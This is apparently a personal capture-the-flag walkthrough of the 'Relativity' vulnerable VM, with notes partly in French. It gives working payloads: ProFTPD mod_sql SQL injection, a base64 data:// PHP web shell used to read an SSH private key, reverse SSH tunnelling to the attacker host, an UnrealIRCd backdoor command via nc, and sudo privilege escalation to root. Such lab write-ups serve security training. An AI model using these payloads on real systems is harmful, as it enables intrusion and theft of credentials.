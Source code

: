 <https://twitter.com/trbughunters/status/1279768631845494787>
<https://book.hacktricks.xyz/pentesting-web/file-inclusion>
<https://blog.clever-age.com/fr/2014/10/21/owasp-local-remote-file-inclusion-lfi-rfi/>
<https://blog.stalkr.net/2010/06/unrealircd-3281-backdoored.html>

ProFTPD 1.2.8 - 1.2.9 mod_sql, php wrappers data://text/plain;base64, UnrealIRCd

# Scan

└─$ sudo nmap -p- -sV 172.16.16.128      
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-24 18:43 CET
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.10% done
Nmap scan report for 172.16.16.128
Host is up (0.00041s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.2.8 - 1.2.9
22/tcp open  ssh     OpenSSH 5.9 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.23 ((Fedora))
MAC Address: 00:0C:29:6A:3B:E0 (VMware)
Service Info: Host: Relativity; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.09 seconds


# Exploit

<https://www.securityfocus.com/bid/33722/exploit>

## Injection SQL

    %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
    %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; -- -
    %') union select 1,1,uid,gid,homedir,shell from users; -- -


Connection au server FTP

    └─$ ftp 172.16.16.128
    Connected to 172.16.16.128.
    220 Welcome to Relativity FTP (mod_sql)
    Name (172.16.16.128:kali): %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
    331 Password required for %').
    Password:1  <== WHY ?
    230 User %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # logged in.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls 
    200 PORT command successful
    150 Opening ASCII mode data connection for file list
    drwxr-xr-x   3 root     root         4096 Mar  5  2013 0f756638e0737f4a0de1c53bf8937a08
    -rw-r--r--   1 root     root       235423 Mar  5  2013 artwork.jpg
    -rw-r--r--   1 root     root          130 Mar  5  2013 index.html
    226 Transfer complete.
    ftp> 


## PHP LFI

    http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=definition.php
    http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=escher.php
    http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=artwork.php

    $ echo '<?php phpinfo(); ?>' | base64
    PD9waHAgcGhwaW5mbygpOyA/Pgo=
    http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==

    $ echo '<?php system($_GET['cmd']); ?>' | base64
    PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=
    http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=ls%20-al%20/home

    total 16
    drwxr-xr-x.  4 root  root  4096 Feb 25  2013 .
    dr-xr-xr-x. 18 root  root  4096 Feb 28  2013 ..
    drwx------.  3 jetta jetta 4096 Jul  9  2013 jetta
    drwxr-xr-x.  3 mauk  mauk  4096 Jul  9  2013 mauk



==> script en python ??

Discovery mauk rsa key

    curl 'http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=cat%20/home/mauk/.ssh/id_rsa'



# Post exploit

    └─$ ssh mauk@172.16.16.128 -i key
    [mauk@Relativity ~]$ ls -al
    total 28
    drwxr-xr-x. 3 mauk mauk 4096 Jul  9  2013 .
    drwxr-xr-x. 4 root root 4096 Feb 25  2013 ..
    -rw-------. 1 mauk mauk   70 Jul  9  2013 .bash_history
    -rw-r--r--. 1 mauk mauk   18 Apr 23  2012 .bash_logout
    -rw-r--r--. 1 mauk mauk  193 Apr 23  2012 .bash_profile
    -rw-r--r--. 1 mauk mauk  124 Apr 23  2012 .bashrc
    drwxr-xr-x. 2 mauk mauk 4096 Jul  9  2013 .ssh
    [mauk@Relativity ~]$ cat .bash_history

    ssh -f root@192.168.144.228 -R 6667:127.0.0.1:6667 -N
    su -
    exit
    su -


    └─$ 
    [mauk@Relativity ~]$ id
    uid=1001(mauk) gid=1001(mauk) groups=1001(mauk)

    mauk@Relativity ~]$ netstat  -ntulp
    (No info could be read for "-p": geteuid()=1001 but you should be root.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:6667          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
    tcp6       0      0 :::80                   :::*                    LISTEN      -                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -                   
    udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
    udp        0      0 0.0.0.0:51305           0.0.0.0:*                           -                   
    udp6       0      0 :::17375                :::*                                -  


    [mauk@Relativity ~]$ cat .bash_history 
    ssh -f root@192.168.144.228 -R 6667:127.0.0.1:6667 -N
    su -
    exit
    su -
    [mauk@Relativity ~]$ 


## Foward port 6667

    [mauk@Relativity ~]$ ssh-keygen -P "" -f key
    [mauk@Relativity ~]$ ssh -f -N kali@172.16.16.1 -R 6667:127.0.0.1:6667 -i key


Scan port 6667

    └─$ nmap -sV  127.0.0.1 -p6667      
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-16 09:19 CET
    Nmap scan report for localhost (127.0.0.1)
    Host is up (0.000053s latency).

    PORT     STATE SERVICE VERSION
    6667/tcp open  irc     UnrealIRCd
    Service Info: Host: relativity.localdomain

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds


Searchsploit

    searchsploit  -m linux/remote/13853.pl


Gain privileges jetta access

    $ echo "AB; cp /bin/sh /tmp/sh; chmod 4755 /tmp/sh" | nc 127.0.0.1 6667

    [mauk@Relativity ~]$ ls -al /tmp/sh
    -rwsr-xr-x 1 jetta jetta 930496 Nov 16 04:21 /tmp/sh

    [mauk@Relativity ~]$ /tmp/sh -p
    sh-4.2$ id
    uid=1001(mauk) gid=1001(mauk) euid=1002(jetta) groups=1002(jetta),1001(mauk)

Get jetta's UID 


    ```c

    void main() {
        setreuid(geteuid(), getuid());
        setregid(getegid(), getgid());
        system("/bin.bash");
    }

    ```
    sh-4.2$ gcc get.c -o get
    sh-4.2$ id
    uid=1001(mauk) gid=1001(mauk) euid=1002(jetta) groups=1002(jetta),1001(mauk)
    sh-4.2$ ./get 
    [jetta@Relativity tmp]$ id
    uid=1002(jetta) gid=1001(mauk) groups=1002(jetta),1001(mauk)

# Get root

    [jetta@Relativity ~]$ sudo -l
    Matching Defaults entries for jetta on this host:
        requiretty, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG
        LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
        LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY PATH", env_reset

    User jetta may run the following commands on this host:
        (root) NOPASSWD: /home/jetta/auth_server/auth_server

    [jetta@Relativity ~]$ rm -fr auth_server/
    [jetta@Relativity ~]$ mkdir auth_server
    [jetta@Relativity ~]$ cp /bin/bash auth_server/auth_server
    [jetta@Relativity ~]$ sudo /home/jetta/auth_server/auth_server
    [root@Relativity jetta]# id
    uid=0(root) gid=0(root) groups=0(root)


# Secret

```php

# index.php
$blacklist_include=array("php://");
for ($i=0; $i<count($blacklist_include); $i++){
    if (strpos($_GET['page'],$blacklist_include[$i]) !== false){
        die();
    }
}
$page = $_GET['page'];
include ($page);

```